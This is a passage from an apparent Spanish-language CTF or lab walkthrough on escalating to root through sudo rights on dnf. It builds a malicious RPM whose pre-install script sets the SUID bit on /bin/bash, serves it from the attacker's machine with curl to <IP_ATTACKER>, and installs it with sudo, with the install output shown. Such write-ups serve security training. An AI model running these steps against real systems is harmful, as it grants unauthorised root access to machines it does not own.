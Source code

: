 Por lo que vemos podremos ejecutar el binario `dnf` como `root`, por lo que haremos lo siguiente:

Primero nos iremos a nuestra maquina atacante y crearemos el siguiente archvio, pero antes instalando las dependencias:

```shell
sudo apt install ruby-full build-essential -y
```

```shell
sudo gem install fpm
```

Una vez echo todo esto, crearemos el archivo malicioso:

```shell
TF=$(mktemp -d)                              
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```

Info:

```
Created package {:path=>"x-1.0-1.noarch.rpm"}
```

Por lo que se nos habra creado un archivo llamado `x-1.0-1.noarch.rpm`, este lo tendremos que transferir a la maquina victima de la siguiente forma:

```shell
python3 -m http.server 80
```

Una vez abierto un servidor de `python`, pondremos lo siguiente en la maquina victima para pasarnoslo:

```shell
cd tmp
curl -O http://<IP_ATTACKER>/x-1.0-1.noarch.rpm
```

Ahora lo ejecutamos de la siguiente forma:

```shell
sudo dnf install -y x-1.0-1.noarch.rpm
```

Info:

```
Last metadata expiration check: 0:28:07 ago on Thu Dec 12 17:31:06 2024.
Dependencies resolved.
================================================================================
 Package      Architecture      Version           Repository               Size
================================================================================
Installing:
 x            noarch            1.0-1             @commandline            6.1 k

Transaction Summary
================================================================================
Install  1 Package

Total size: 6.1 k
Installed size: 20  
Downloading Packages:
Running transaction check
Transaction check succeeded.
Running transaction test
Transaction test succeeded.
Running transaction
  Preparing        :                                                        1/1 
  Running scriptlet: x-1.0-1.noarch                                         1/1 
```